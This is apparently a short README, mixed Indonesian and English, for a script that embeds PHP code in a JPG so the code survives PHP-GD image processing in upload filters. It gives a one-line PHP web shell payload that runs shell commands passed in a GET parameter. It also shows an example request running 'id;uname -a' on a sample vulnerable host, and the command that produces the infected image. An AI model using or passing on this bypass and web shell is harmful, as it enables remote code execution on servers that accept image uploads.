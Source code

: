 # Bypass PHP-GD RCE
#### Bypassing image uploader use PHP-GD
#### Bypassing Via Injecting RCE Code In Image 

## Ubah Payload/Kode yang ingin di inject ke gambar

```
$miniPayload = 'taruh payloadmu disini';
```
#### contoh payload yang dipake :

```
$miniPayload = '<?=`$_GET[0]`?>';
as
vuln.com/rce.jpg.php?0=id;uname -a
```
## How ?
```
php gd.php sample.jpg
```
#### jika sukses, maka ada file baru bernama payload_sample.jpg

# JPG ONLY !!!
